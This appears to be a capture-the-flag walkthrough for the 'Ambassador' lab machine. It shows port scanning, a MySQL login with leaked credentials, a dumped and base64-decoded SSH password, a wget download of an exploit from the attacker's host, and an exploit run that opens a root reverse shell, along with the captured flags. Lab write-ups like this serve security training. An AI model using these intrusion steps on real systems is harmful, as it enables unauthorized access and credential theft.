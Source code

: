 # Ambassador

Let's stat enumerating the system !
```
sudo nmap -sS --open --min-rate 5000 -Pn -n -v 10.10.11.183 -oG allPorts
```
> Dicovered ports: 22,80,3000,3306

Check the version of services 
```
nmap -sC -sV -p22,80,3000,3306 10.10.11.183 -oN targeted
```

Connect to the mysql !
```
mysql -u grafana -p'dontStandSoCloseToMe63221!' -h 10.10.11.183 -P 3306
```

Once there, let's search main info !
```
MySQL [(none)]> show databases;
```

We have these databases !
```
+--------------------+
| Database           |
+--------------------+
| grafana            |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| whackywidget       |
+--------------------+
```

Let's check ```whackywidget``` database
```
MySQL [grafana]> use whackywidget;
```

Check the tables inside
```
MySQL [whackywidget]> show tables
```

We have the ```users``` table !
```
+------------------------+
| Tables_in_whackywidget |
+------------------------+
| users                  |
+------------------------+
```

So, let's extract the information !
```
MySQL [whackywidget]> select * from users;
```

We have the ```developper``` credentials ! (cf. [file](./content/developer_ssh_credenttials.txt))
```
+-----------+------------------------------------------+
| user      | pass                                     |
+-----------+------------------------------------------+
| developer | YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg== |
+-----------+------------------------------------------+
```

The password seems to be in base64, to decode it run
```
echo "YW5FbmdsaXNoTWFuSW5OZXdZb3JrMDI3NDY4Cg==" | base64 -d
```

We got the real password !
```
anEnglishManInNewYork027468
```

Connect to the ssh and enter the password
```
ssh developer@ambassador.htb
```

Once inside, we have the ```user.txt``` flag !
```
a23626b3b7c1add20ab98688bedd5216
```

# TODO finish the git research 


We need to transfer our exploit file to the ambassador machine ! in our local machine create a server in the directory where ```root_pass.py``` is
```
sudo python3 -m http.server 2222
```

In the ssh connexion, run
```
wget http://<YOUR_IP>:2222/root_pass.py
```
> In my personal case :
> ```
> wget http://10.10.16.29:2222/root_pass.py
> ```

Exec the exploit !
```
python3 root_pass.py --rhost 127.0.0.1 --rport 8500 --lhost 10.10.16.29 --lport 123 --token  bb03b43b-1d81-d62b-24b5-39540ee469b5
```

We are root in the listener !
```
...
Ncat: Connection from 10.10.11.183.
root@ambassador:/#
```

Let's open the ```root.txt``` !
```
cat /root/root.txt
```

We have the final flag !
```
32320caee8565cff856ea7e5a3715ddf
```
